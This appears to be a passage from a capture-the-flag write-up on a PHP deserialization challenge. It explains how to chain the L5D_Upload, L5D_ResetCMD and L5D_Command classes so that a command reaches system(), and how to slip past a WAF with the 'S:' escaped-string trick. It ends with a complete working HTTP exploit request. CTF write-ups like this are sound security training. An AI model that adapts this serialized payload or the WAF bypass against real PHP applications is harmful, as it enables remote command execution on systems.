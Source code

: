 

L5D_Command is execute $cmd via `system()`.



So, Idea is simple now.

Unserialize the L5D_Upload for update $_SESSION for L5D_ResetCMD, update $cmd and do L5D_Command.

The one thing we need to consider is order of unserialization because of `__wakeup` and `__destruct`'s variable control.

Also, we could bypass the waf using `S:`



final payload:

```
POST /?%3f=O:9:"Directory":5:{s:6:"handle";O:10:"L5D_Upload":0:{}s:4:"path";O:12:"L5D_ResetCMD":1:{S:10:"%00\2a%00new_cmd";s:2:"ls";}s:6:"handle";O:10:"L5D_Upload":0:{}s:1:"h";O:11:"L5D_Command":0:{}s:6:"handle";O:10:"L5D_Upload":0:{}} HTTP/1.1
Host: l5d.balsnctf.com:12345
Content-Length: 4360
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Whale/2.8.108.15 Safari/537.36
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryaxaBJ35r377fSyzt
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=sqrtrev
Connection: close

------WebKitFormBoundaryaxaBJ35r377fSyzt
Content-Disposition: form-data; name="_SESSION"; filename="wubalubadubdub"
Content-Type: application/octet-stream

aaa
------WebKitFormBoundaryaxaBJ35r377fSyzt
Content-Disposition: form-data; name="l5d_file"; filename="Screenshot_2020-11-14_at_12.03.20_PM.png"
Content-Type: image/png

{SMALL IMAGE HERE}
------WebKitFormBoundaryaxaBJ35r377fSyzt--
```

